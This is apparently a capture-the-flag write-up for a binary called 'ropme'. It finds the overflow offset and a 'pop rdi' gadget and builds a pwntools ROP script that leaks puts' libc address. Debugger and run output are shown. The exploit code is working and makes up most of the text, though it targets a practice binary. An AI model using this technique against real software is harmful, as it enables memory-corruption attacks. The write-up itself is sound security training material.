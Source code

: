   0x00007fffffffdf18│+0x0000: "BBBBBBBB\n"	 ← $rsp

The offset is 72, aka BUF_SIZE = 72. This is a memory leak that can be induced.


2. Look for a function with ropper:
gef➤  ropper --search "pop r?i"
  -- snip --
  0x00000000004006d3: pop rdi; ret;
  0x00000000004006d1: pop rsi; pop r15; ret;

"In 64 bit programming the first four registers used for passing parameters are rdi, rsi, rdx, and rcx, in that order."
https://trustfoundry.net/basic-rop-techniques-and-tricks/

The rdi address is of interest here, with this information we can start creating our skeleton exploit.

root@nidus:/git/challenges/ropme# cat exploit.py
  #!/usr/bin/python3

  from pwn import *
  p = gdb.debug('./ropme', 'b main')
  context(os='linux', arch='amd64')

  junk = 'A' * 72
  pop_rdi = p64(0x4006d3)


3. After the pop, we can to put something new on the register. Here we would want the global offset tables address.
Using objdump we can find the address of puts.

root@nidus:/git/challenges/ropme# objdump -D ropme | grep puts
  00000000004004e0 <puts@plt>:
    4004e0:	ff 25 32 0b 20 00    	jmpq   *0x200b32(%rip)        # 601018 <puts@GLIBC_2.2.5>

Edit the script and add both got_puts (0x601018) and plt_puts (0x4004e0).

root@nidus:/git/challenges/ropme# cat exploit.py
  #!/usr/bin/python3

  from pwn import *
  p = gdb.debug('./ropme', 'b main')
  context(os='linux', arch='amd64')

  junk = ('A' * 72).encode()  # encode converts from string into bytes
  pop_rdi = p64(0x4006d3)     # gdb
  got_puts = p64(0x601018)    # objdump
  plt_puts = p64(0x4004e0)    # objdump

  gadget_leak = pop_rdi + got_puts + plt_puts

  p.sendline(junk + gadget_leak)
  p.interactive()

The gadge_leak variable will pop got_puts into rdi (register that will be run first), return to rsp where plt_puts will be at.

If we run the program now we crash it and get a random memory address printed.
root@nidus:/git/challenges/ropme# python3 exploit.py
  [+] Starting local process '/usr/bin/gdbserver': pid 58626
  [*] running in new terminal: /usr/bin/gdb -q  "./ropme" -x /tmp/pwnwnkf7s6s.gdb
  [*] Switching to interactive mode
  ROP me outside, how 'about dah?
  \xb0֩lc\x7f                                           <----- RANDOM MEMORY ADDRESS
  [*] Got EOF while reading in interactive
